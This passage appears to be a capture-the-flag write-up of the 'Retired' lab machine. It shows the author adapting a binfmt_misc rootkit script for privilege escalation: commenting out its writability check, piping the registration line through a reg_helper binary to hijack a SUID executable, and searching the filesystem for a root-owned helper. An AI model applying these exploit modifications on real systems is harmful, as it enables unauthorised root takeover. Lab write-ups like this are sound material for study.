 We see the problem is only root has write access to the register file. Going back to that reg_helper binary, we saw it writes to the register file for us. We just need to alter the exploit slightly:

```sh
dev@retired:~$ cp binfmt_rootkit binfmt_rootkit_pencer
dev@retired:~$ nano binfmt_rootkit_pencer 
```

First we can comment out the check to see if the register file is writeable:

```text
EOF
    exit 1
}

#function not_writeable()
#{
#       test ! -w "$mountpoint/register"
#}
```

Also comment out the line that calls the function we've just commented out:

```text
[[ -n "$1" ]] && usage

#not_writeable && die "Error: $mountpoint/register is not writeable"

target="$(pick_suid "$searchsuid")"
test -e "$target" || die "Error: Unable to find a suid binary in $searchsuid"
```

Now change the last section so instead of trying to write to the register file it calls the reg helper binary instead:

```text
chmod a+x "$fmtinterpr"

binfmt_line="_${fmtname}_M__${binfmt_magic}__${fmtinterpr}_OC"
echo "$binfmt_line" | /home/dev/emuemu/reg_helper

exec "$target"
```

Now when we run it we find it's still not quite right:

```text
dev@retired:~$ ./binfmt_rootkit_pencer
./binfmt_rootkit_pencer: line 101: /home/dev/emuemu/reg_helper: Permission denied
umount: bad usage
Try 'umount --help' for more information.
```

Of course that reg_helper file was owned by dev, a quick look finds another version of it hidden elsewhere:

```sh
dev@retired:~$ find / -name reg_helper 2>0
/usr/lib/emuemu/reg_helper
/home/dev/emuemu/reg_helper

dev@retired:~$ ls -lsa /usr/lib/emuemu/reg_helper
20 -rwxr-x--- 1 root dev 16864 Oct 13  2021 /usr/lib/emuemu/reg_helper
```
